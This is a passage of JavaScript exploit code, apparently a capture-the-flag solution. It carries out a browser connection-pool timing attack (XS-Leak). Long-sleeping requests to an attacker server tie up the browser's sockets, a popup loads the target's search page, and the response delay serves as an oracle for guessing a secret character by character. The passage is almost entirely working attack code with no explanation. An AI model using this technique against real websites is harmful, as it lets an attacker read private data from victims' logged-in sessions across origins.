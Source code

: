 ```html
        await fetch(test_server_url, {
            mode: 'no-cors'
        });
    } catch (e) {
        console.log(e);
    }
    let end = window.performance.now();
    return end - start;
}

const fetch_sleep_long = (i) => {
    // 40s sleep
    return fetch(`https://${i}.${MYSERVER}/40sleep`, {
        mode: 'no-cors'
    });
}

const fetch_sleep_short = (i) => {
    // 0.25s sleep
    return fetch(`https://${i}.${MYSERVER}/ssleep`, {
        mode: 'no-cors'
    });
}

const block_socket = async (i) => {
    fetch_sleep_long(i);
    // needed?
    await sleep(0);
}

const exhaust_sockets = async() => {
    let i = 0
    for (; i < SOCKETLIMIT; i++) {
        block_socket(i);
    }
    console.log(`Used ${i} connections`);
}

const timeit = async (url, popup) => {
    return new Promise(async (r) => {

        popup.location = url;
        // needed?
        await sleep(50)

        let val = await time_fetch()
        r(val)
    });
}

// const alphabet = '_abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ-}!"#$%&\'()*+,-./:;<=>?@[\\]^`|~{'.split('');
const alphabet = 'abcdefghijklmnopqrstuvwxyz}_'.split('');
// const alphabet = 'abcdef}'.split('');

const oracle = async (search) => {
    let url = `https://carrot-${INSTANCE}.mc.ax/tasks?search=${search}`
    let t = await timeit(url, WINBG)

    LOG = `${search}:${t}`
    console.log(`${search}:${t}`)

    return t > TIMELIMIT 
```